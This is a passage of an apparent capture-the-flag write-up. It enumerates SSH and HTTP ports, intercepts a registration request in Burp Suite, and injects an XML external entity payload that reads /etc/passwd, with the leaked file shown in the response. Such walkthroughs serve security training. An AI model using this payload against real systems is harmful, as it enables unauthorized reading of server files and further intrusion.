 **Key points:** 
- `22/tcp open ssh`: This indicates that the SSH (Secure Shell) service is running on port 22.
- `80/tcp open http`: This indicates that the HTTP (Hypertext Transfer Protocol) service is running on port 80.


### Step 4: Visit web application

Let´s register

![[Pasted image 20250217123138.png]]

### Step 5: Intercept with BurpSuite

![[Pasted image 20250217123416.png]]

In Repetar Tab send the request

![[Pasted image 20250217123522.png]]

As that in the response is shown the email...

**Let´s test XXE vulnerability:**

In Request tab:

```xml
<SNIP>
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE details [
		<!ENTITY myxxe SYSTEM "file:///etc/passwd">
]>
<details><email>&myxxe;</email><password>user2025</password></details>
<SNIP>
```

In Response tab:

```xml
<p align='center'> <font color=white size='5pt'> root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
david:x:1000:1000::/home/david:/bin/bash
 is already registered! </font> </p>
```